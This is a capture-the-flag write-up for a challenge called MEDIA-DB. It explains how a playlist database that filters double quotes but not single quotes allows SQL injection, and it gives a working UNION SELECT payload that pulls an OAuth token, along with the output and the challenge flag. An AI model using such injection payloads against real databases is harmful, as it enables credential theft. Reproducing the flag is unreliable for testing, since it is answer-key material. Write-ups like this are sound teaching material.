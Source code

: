# MEDIA-DB

## Text
The gatekeeper software gave you access to a custom database to organize a music playlist. It looks like it might also be connected to the smart fridge to play custom door alarms. Maybe we can grab an oauth token that gets us closer to cake.

## Attachments
A python file, the same as the one running on the server we can connect to.

## Tools Used
* nc

## Solution
Looking at the code provided, the programmer removes `"` quotes from anything the user enters, but then uses `'` in later accesses to the database. This allows us to use `'` to inject our own SQL commands into the program.

Using this as an artist name, and whatever we want as a song name:
```
' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --
```

and then shuffling out songs gives us the following output:
```
choosing songs from random artist: ' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --

== new playlist ==
1: "2" by "CTF{fridge_cast_oauth_token_cahn4Quo}
"
```

Making our flag:
```
CTF{fridge_cast_oauth_token_cahn4Quo}
```

